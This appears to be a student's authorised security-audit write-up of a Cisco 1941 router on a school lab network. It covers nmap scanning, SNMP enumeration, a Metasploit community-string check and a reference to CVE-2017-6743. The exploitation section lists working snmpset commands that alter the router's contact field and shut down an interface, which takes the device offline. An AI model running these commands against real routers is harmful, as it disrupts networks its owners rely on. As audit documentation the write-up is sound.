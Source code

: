 ## Explicit Permission Granted by Harto Holmström to test their Cisco Router-Switch system

# Security Audit of Cisco Router-Switch System

## x. 

I know from physical access that there are 2 routers and 3 switches on this network. I also have the SSH access to normal user on these switches. They all run Cisco OS and I am simply looking for vulnerabilities.

<img src="0.png" alt="img"/>

The router model is `C1900 Integrated Services Router` from Cisco 1941 series

The OS version is `15.5(3)M5`

Image type: `universalk9`

##### Note 

This version is rather old (last update in 2019) and not up to date and potentially vulnerable. 

## a. Scanning

I am on the same host network as the Cisco router on subnet 172.28.x.x

My Kali Linux is on bridged adapter on the same subnet. 
I began by conducting an nmap scan on the target device using `nmap -A -Pn -T4 -vv -p- <target>`

<img src="1.png" alt="img"/>

The only open port was SSH on port 22. After feeding the image to ChatGPT 5.0 for deciphering, some details from the image include `1024 bit RSA`, `OS: IOS`, `IOS 12.4-15.x version`, `Vendor: Cisco Systems, Inc.`

But we already know this is a genuine Cisco device of model 1900 series and is running version 15.5(3).

I tried again using `sudo nmap -sS -p- -T4 --reason --max-retries 2 <target>` just to make sure I got all tcp ports along with sudo command.

<img src="2.png" alt="img"/>

This time it showed a lot more ports but they were mostly filtered.

I tried one more nmap with UDP ports `sudo nmap -sU --top-ports 200 --reason --max-retries 2 <target>`

<img src="3.png" alt="img"/>

Now there's more ports open, although I cannot be sure they mean anything yet.

Right now the main ports that are open are port: `22 ssh`, `123 ntp`, `161 snmp`

I began by looking at CVEs on the internet for Cisco routers and stumbled upon one regarding the 161 snmp port: https://www.cvedetails.com/cve/CVE-2017-6743/ 

This one is a buffer overflow vulnerability for remote code execution. I first must confirm that the snmp port works.`snmpwalk -v2c -c public 172.28.200.2 1.3.6.1.2.1.1.5.0` shows if SNMP v2 works and if this returns a public string, which it does: `iso.3.6.1.2.1.1.5.0 = STRING: "Lab-R2.tielab.haaga-helia.fi"` it will open up an attack vector.

<img src="4.png" alt="img"/>

## b. Exploitation

Now that we know it is potentially vulnerable to snmp exploits, we will do some confirmation with Metasploit.

`use auxiliary/scanner/snmp/snmp_login` will help me confirm my suspicion that it is vulnerable if it completes.

<img src="5.png" alt="img"/>

It has successfully completed and It says `LOGIN SUCCESSFUL public access level read-only` and validated the community string. This system is now very highly likely vulnerable.

However, upon browsing the internet and searching for an exploit I have not found an exploit and would need to write one myself which is very unlikely because I do not have the knowledge related to Cisco IOS. I only found a python exploit on Github that exploits the 15.1(4)M12a version is an older version and this is updated. 

Source: https://github.com/artkond/cisco-snmp-rce

I do not believe I can customize the exploit to work on the newer system so the risk remains relatively low. However, since we have the private string we can use it to do a simple DDoS attack.

Iterating through the OIDs using snmpwalk we can find different identifiers for the services and info on the router.

Read through all available OIDs
`snmpwalk -v 2c -c private 172.28.200.3`

Read through sysContact email
`snmpget -v 2c -c private 172.28.200.3 1.3.6.1.2.1.1.4.0`

Change sysContact email
`snmpset -v 2c -c private 172.28.200.3 1.3.6.1.2.1.1.4.0 s "admin@example.com"`

Read strings for the services available
`snmpwalk -v 2c -c private 172.28.200.3 1.3.6.1.2.1.2.2.1.2`

Read which services have admin enabled:
`snmpwalk -v 2c -c private 172.28.200.3 1.3.6.1.2.1.2.2.1.7`

Turning off the ifAdminStatus interface on router, not allowing traffic to be sent or received
`snmpset -v 2c -c private 172.28.200.3 1.3.6.1.2.1.2.2.1.7.3 i 2`

Now we cannot get in contact with the router anymore and have succesfully DDoSed it on the network.


## c. Summary

The Cisco router is running an outdated OS 15.5(3)M5 with SNMP v1 and v2c enabled using the default public community string. The SNMP port is open, making the device potentially vulnerable to CVE-2017-6743. There was an outdated exploit for version 15.1(4)M12a which does not work on the current IOS system, thus the system presents only a low risk attack vector due to outdated firmware and open ports. 

A threat actor would need physical access to the network and also know the password for the network in order to be able to interact with the ports, thus I label this as low risk and unlikely to be hacked. Nonetheless the right precautions should be taken as they can still DDoS the routers if the SNMP ports are online and misconfigured. 





References:
https://www.reddit.com/r/netsec/comments/7oawj2/

cisco_ios_snmp_remote_code_execution_cve20176737/

https://nvd.nist.gov/vuln/detail/cve-2017-6743

https://www.cisco.com/c/en/us/support/docs/csa/cisco-sa-20170629-snmp.html


